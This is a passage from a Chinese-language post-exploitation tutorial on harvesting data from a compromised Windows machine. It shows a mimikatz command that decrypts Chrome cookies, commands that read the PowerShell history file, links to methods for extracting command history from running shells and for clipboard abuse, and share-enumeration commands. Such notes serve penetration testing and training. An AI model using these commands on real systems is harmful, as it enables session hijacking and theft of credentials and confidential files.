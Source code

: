 ```plaintext
// mimikaz 读取 Chrome 浏览器 Cookie。
mimikatz.exe privilege::debug log "dpapi::chrome /in:%localappdata%\Google\Chrome\USERDA~1\Default\Cookies /unprotect" exit
```

##### PowerShell 历史命令⚒️

PowerShell 执行过的命令历史会存留记录，文件位于用户数据目录：

```plaintext
C:\Users\gbb>type %APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
scrcons.exe
screentogif.exe
node
cd desktop
node .\realPath.js
node
......
```

```plaintext
PS C:\Users\gbb> Get-Content (Get-PSReadlineOption).HistorySavePath
scrcons.exe
screentogif.exe
node
cd desktop
node .\realPath.js
node
......
```

[渗透技巧——获得Powershell命令的历史记录](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E8%8E%B7%E5%BE%97Powershell%E5%91%BD%E4%BB%A4%E7%9A%84%E5%8E%86%E5%8F%B2%E8%AE%B0%E5%BD%95)一文里有更详细的描述，比如目标机器正运行 powershell 由于没退出不会保存到文件里，怎么读运行的命令？同样的 cmd 正在运行怎么读取执行过的命令？

师傅给出的方案是向进程发送键盘消息，比如向 cmd 进程发送的消息是命令 doskey /h 就能读取运行过的命令，向 powershell 发送消息 Get-History，能读取 Powershell 运行过的命令。

先看 Powershell

[https://github.com/3gstudent/Homework-of-C-Language/blob/master/SendKeyboardMessageToPowershell(Get-History).cpp](https://github.com/3gstudent/Homework-of-C-Language/blob/master/SendKeyboardMessageToPowershell(Get-History).cpp)

##### 剪切板⚒️

[https://3gstudent.github.io/Windows%E4%B8%8B%E5%89%AA%E8%B4%B4%E6%9D%BF%E7%9A%84%E5%88%A9%E7%94%A8](https://3gstudent.github.io/Windows%E4%B8%8B%E5%89%AA%E8%B4%B4%E6%9D%BF%E7%9A%84%E5%88%A9%E7%94%A8)

##### 共享

在内网环境下，如果没做好网络隔离，通常会有共享权限配置不当的情况，直接就能访问内容，在实战中遇到过开发将密码、代码、开连环境、漏洞测试报告等资料未加密存放。

查本机共享和可以访问的共享。

```plaintext
net share
wmic share get name,path,status
```
